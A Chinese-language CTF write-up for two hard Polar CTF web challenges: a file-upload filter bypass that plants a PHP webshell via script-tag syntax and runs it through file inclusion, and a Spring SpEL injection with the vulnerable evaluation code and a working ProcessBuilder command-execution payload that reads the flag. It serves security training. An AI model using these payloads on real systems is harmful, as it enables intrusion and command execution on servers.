







[Polar ctf WEB] 困难区 wp 2
===

## [Polar WEB] 自由的文件上传系统

### 题解

打开是一个文件上传页面, 尝试传个马上去, 发现后台会自动把 `<?` 替换成 `<!` 导致不能成功, 此时观察一下网页源代码, 发现 url 有一点奇怪, 扫一下目录:



扫出了 git 源码泄露问题, 这里用 `dumpall` 工具恢复源码, 用 pip 装一个就行; 

很可惜扫完好像没什么东西在里面; 再看一下 url, 可能有文件包含, 可惜似乎禁了伪协议, 也没什么头绪, 那只能再试试上传点了:

```phtml
<script language="php">system("ls");</script>
```



直接访问不显示结果, 试试刚刚的文件包含:


到这里再传个码进去就行了:



## [Polar WEB] ezjava

### 题解 (SpEL 注入)

题目给了个 jar 包, 添加到 IDEA 库里反编译:



注意看这里, 有一处可疑的注入点:



```java
public String spelVul(String ex) {
    ExpressionParser parser = new SpelExpressionParser();
    EvaluationContext evaluationContext = new StandardEvaluationContext();
    String result = parser.parseExpression(ex).getValue(evaluationContext).toString();
    System.out.println(result);
    return result;
}
```

`SpelExpressionParser` 和 `EvaluationContext` 是典型的 Spring 自带类, 前者将字符串形式的 SpEL (Spring Expression Language) 表达式解析成一个可执行的 Expression 对象, 保存求值的上下文变量; 通俗的来说, 定义了解析表达式能做什么, 能看到什么;

这个注入其实和 Python Flask 中是 SSTI 注入有一些调用链上的相似之处;

此处的 `getValue` 方法会对表达式求值, 因此是执行点;

直接传试试:

```
(GET)
SPEL/vul?ex=2-1
```

执行成功了:



payload:

```java
new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder(new String[]{"bash","-c","cat /app/flag*"}).start().getInputStream(), "gbk")).readLine()
```

转 URL 编码后传入 ex 即可;



非常经典的链式调用;

